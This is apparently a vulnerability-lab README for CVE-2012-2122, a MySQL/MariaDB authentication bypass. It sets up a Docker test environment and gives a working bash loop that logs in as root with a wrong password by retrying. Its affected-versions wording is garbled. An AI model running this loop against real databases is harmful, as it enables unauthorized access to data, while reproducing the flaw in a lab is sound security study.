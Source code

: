 # MySQL Authentication Bypass (CVE-2012-2122)

[中文版本(Chinese version)](README.zh-cn.md)

When connecting to MariaDB/MySQL, the input password is compared with the expected correct password. Due to improper handling, even if memcmp() returns a non-zero value, MySQL may still consider the two passwords to be identical. This means that with just a username, repeated login attempts can lead to successful database access.

Affected versions:

- MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.
- MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

Reference links:

- http://www.freebuf.com/vuls/3815.html
- https://blog.rapid7.com/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/

## Environment Setup

Through testing, although this environment runs in a container, the ability to reproduce the vulnerability still has some dependency on the host machine. The host machine is best run on Ubuntu or Mac systems, but success is not guaranteed. You are welcome to submit more test results in Issues.

Execute the following command to start the test environment:

```
docker compose up -d
```

After the environment starts, a MySQL service (version: 5.5.23) will be launched, listening on port 3306. You can log in directly through a normal MySQL client, the correct root password is 123456.

## Vulnerability Reproduce

Without knowing the correct password for our environment, run the following command in bash, and after a certain number of attempts, you should be able to successfully log in:

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```

![](1.png)

For more testing and exploitation methods, see the reference links.

